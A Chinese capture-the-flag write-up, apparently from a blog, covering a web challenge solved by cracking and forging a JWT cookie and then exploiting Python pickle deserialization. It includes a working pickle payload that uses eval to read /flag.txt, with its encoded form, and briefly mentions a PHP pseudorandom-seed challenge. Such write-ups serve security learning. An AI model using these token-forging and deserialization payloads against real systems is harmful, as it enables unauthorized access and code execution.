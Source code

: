 购买`lv6`并加入折扣
![在这里插入图片描述](https://img-blog.csdnimg.cn/ba714f20662f41a18d0253ceaa609687.png)
有页面跳转，访问之

![在这里插入图片描述](https://img-blog.csdnimg.cn/cff496c5cf814b0e8771dae38933ebe8.png)
在cookie中发现`jwt`，尝试进行爆破、伪造

`jwt-cracker`

`jwtcracker eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjExMSJ9.5hqClCrHxXTMD2pR9wgK4Kjt8Quuy1puPM4MamgHLOg`

![在这里插入图片描述](https://img-blog.csdnimg.cn/0ccd10052ca5432383bc310d5d9d8f90.png)
网站`https://jwt.io/`进行修改放包

![在这里插入图片描述](https://img-blog.csdnimg.cn/17b0e2a3e76747519d10e3e043b68a43.png)


![在这里插入图片描述](https://img-blog.csdnimg.cn/c25fc9197cbe44c48cf4ee432dcf73dc.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/f93f506cb08649e1ba57abb28d82c6a1.png)
在`Admin.py`中有反序列化内容

![在这里插入图片描述](https://img-blog.csdnimg.cn/31ebb0e70bcc4af08146368d63839534.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/1da46462216d4b1fbba24c12239793e0.png)
```python
import pickle
import urllib

class payload(object):
    def __reduce__(self):
       return (eval, ("open('/flag.txt','r').read()",))

a = pickle.dumps(payload())
a = urllib.quote(a)
print a
```

生成

`c__builtin__%0Aeval%0Ap0%0A%28S%22open%28%27/flag.txt%27%2C%27r%27%29.read%28%29%22%0Ap1%0Atp2%0ARp3%0A.
`

点击`b1g_m4mber`中的一键成为大会员，将`admin`改为上述值即可


# [GWCTF 2019]枯燥的抽奖
>https://blog.csdn.net/qq_61778128/article/details/127113502
>https://www.cnblogs.com/Article-kelp/p/16046948.html

发现数据传到check.php，访问发现源码，考察伪随机数
需要根据已经有的前半部分字符串，利用php_mt_seed跑出伪随机数种子，再生成这个完整的字符串
